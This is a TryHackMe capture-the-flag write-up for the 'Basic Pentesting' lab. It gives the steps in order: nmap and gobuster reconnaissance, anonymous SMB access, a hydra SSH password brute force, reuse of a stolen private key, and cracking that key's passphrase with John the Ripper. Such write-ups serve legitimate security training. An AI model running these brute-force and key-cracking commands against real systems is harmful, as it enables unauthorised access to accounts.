# TryHackMe – Basic Pentesting Write-up

### Nmap Scan
```bash
 nmap -sV -A <IP address>
 ```


### Directory enumeration 
```bash
 gobuster dir -u http://<IP address> -w /usr/share/wordlists/dirb/common.txt
``` 


### Web Inspection
```bash
 firefox http://<IP address>/development/ 
```






### SMB Enumeration
```bash
 smbclient -L //<IP address> -N
 ```


```bash
 smbclient //<IP address>/Anonymous -N 
 ```


```bash
 cat staff.txt 
 ```


### SSH Brute Force
```bash
 hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<IP address>
 ```


### SSH Access (as jan)
```bash
 ssh jan@<IP address>
 ```


### Post-Exploitation Enumeration


#### Note: 
 pass.bak is a password back up file that may contain the other password I'am looking for.
 
 I can't access to pass.bak as jan that's why I need to connect to the machine as Kay.

 id_rsa is Kay's private key.

 I'm gonna use id_rsa to access ssh as Kay

### Privilege Escalation
 Transferring the Private Key to my kali machine(attacker machine)

```bash
 nano id_rsa  
 ```
 Fixing SSH Key Permissions (SSH requires strict permissions on private keys; otherwise, authentication will fail.)
 ```bash
 chmod 600 id_rsa
 ```
 Attempting SSH Login as Kay
 ```bash
 ssh -i id_rsa kay@<IP address>
 ```


 the id_rsa file is protected by a passphrase
### Cracking the SSH Key Passphrase
 Converting SSH Key for John (The encrypted private key is converted into a format compatible with John the Ripper.)
 ```bash
 ssh2john id_rsa > id_rsa.hash
 ```
 Cracking the Passphrase
 ```bash
 john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
 ```


 Recovered passphrase: beeswax

### SSH Login (as Kay)
```bash
 ssh -i id_rsa kay@<IP address> 
 ```


### Final Enumeration 



After logging in as kay, I was able to access the pass.bak file.


